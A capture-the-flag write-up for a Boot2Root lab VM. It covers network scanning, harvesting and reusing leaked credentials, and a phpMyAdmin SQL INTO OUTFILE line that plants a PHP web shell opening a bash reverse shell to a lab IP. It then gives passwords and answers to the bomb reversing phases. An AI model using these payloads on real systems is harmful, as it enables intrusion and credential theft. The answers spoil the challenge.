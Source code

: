 # Boot2Root

## Write-Up 1

After the vm setup the VM

Scan network to find ip:
`nmap -sP -sn 192.168.56.0/24`


Scan open port for the IP:
`nmap 192.168.56.4`


Detect routes:
`nmap -sV --script=http-enum 192.168.56.4`

```sh
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22
| http-enum:
|   /forum/: Forum
|   /phpmyadmin/: phpMyAdmin
|   /webmail/src/login.php: squirrelmail version 1.4.22
|_  /webmail/images/sm_logo.png: SquirrelMail
|_http-server-header: Apache/2.2.22 (Ubuntu)
993/tcp open  ssl/imaps?
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.18 seconds
```

We can observe:
    
- Ports open:

    21/tcp  open  ftp        vsftpd 2.0.8 or later

    22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)

    80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))

    143/tcp open  imap       Dovecot imapd

    443/tcp open  ssl/http   Apache httpd 2.2.22

    993/tcp open  ssl/imaps?

- 4 Routes on port 443:

    /forum/: Forum

    /phpmyadmin/: phpMyAdmin

    /webmail/src/login.php: squirrelmail version 1.4.22

    /webmail/images/sm_logo.png: SquirrelMail


- Forum:
    We can curl the forum to see

```sh
curl --insecure 'https://192.168.56.4/forum/' | grep href | tr "<>" "\n" | grep href | sed 's/.* href/\
href/g' | cut -d "=" -f2 | sed '/^..*$/!d'
```

```
"themes/default/style.min.css" media
"index.php?mode
"index.php?mode
"themes/default/images/favicon.ico" /
"./" title
"index.php?mode
"index.php?mode
"index.php?mode
"index.php?refresh
"index.php?mode
"index.php?fold_threads
"index.php?toggle_view
"index.php?id
"index.php?mode
"index.php?id
"index.php?mode
"index.php?id
"index.php?mode
"index.php?id
"index.php?id
"index.php?mode
"index.php?id
"index.php?mode
"index.php?mode
"index.php?mode
"http://mylittleforum.net/"
```

From the web browser we can read a topic intitled "Probleme login?"
`https://192.168.56.4/forum/index.php?id=6`

We found inside 2 important data that we cannot guess, a username `lmezard` and a password `!q\]Ej?*5K5cy*AJ`

We can see inside many log about failed connection try
`curl --insecure 'https://192.168.56.4/forum/index.php?id=6' | grep 'Failed password'`

We found a password but doesn't work on ssh

We will try on the webmail service

Doesn't work either

Instead, if we try to login on the forum 

It works for te user `lmezard`

Now we are logged we can see that there is no real difference between the previous situation, exept for the user space

Inside the user spae we found the lmezard's email,that's `laurie@borntosec.net`

We can try to log to the webmail server at `webmail/src/login.php`

It works with the same password

There's a mail with db access

We can connect to the phpmyadmin dashboard

From here you can launch a reverse shell

```sql
SELECT "<?= exec('/bin/bash -c \"bash -i 2>&1 > /dev/tcp/192.168.56.3/8080 0>&1 \"');" INTO OUTFILE '/var/www/forum/templates_c/7.php'
```

we cat the file in `/home/LOOKATME/password`

we found inside the lmezard's password

we can log with the user and password

A README file tell us that we have to solve the fun challenge to get the ssh password for laurie user

Fun is a tar archive, with a c code split in many text files

after reagrrange files in order we can see that laurie password is a sha256 hash `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4` from the string `Iheartpwnage`

After connect to laurie by ssh, another README tell us to solve the bomb challenge to get the Thor's password

The Bomb is a program that takes lines in input. There is 6 Phases (Levels)

Phase 1:

`Public speaking is very easy.`

Phase 2:
> 6 numbers following the `U(n+1)=n+1*U(n)` suite

`1 2 6 24 120 720`

Phase 3:
> There is 8 correct answer, under the format `%d %c %d`

`0 q 777`
`1 b 214`
`2 b 755`
`3 k 251`
`4 o 160`
`5 t 458`
`6 v 780`
`7 b 524`

> For the final answer only this soltuion works: `1 b 214`


Phase 4:
> Fibonacci suite, we search for fibonacci(x)=55

`9`

> There is a secret phase, who don't change the final result with `9 austinpowers` and the solution is `1001`

Phase 5:
> Matching between a formula's result on 6 char long string and the string `giants`

`opekmq`

Phase 6:
> 6 node of a chained list, that we need to reorder in decending order. Specify the order with 6 digits between 1-6

`4 2 6 3 1 5`

`Publicspeakingisveryeasy.126241207201b2149opekmq426315`
> We got an asset that tells we need to permute the n-1 and n-2 chars in the key

`Publicspeakingisveryeasy.126241207201b2149opekmq426135`
> this is thor's ssh password

In thor Home there is a turtle bot who draw `SLASH` on the screen, the readme wink us with a `digest` reference who leads us to hash the word and md5 is our key for the zaz kingdom

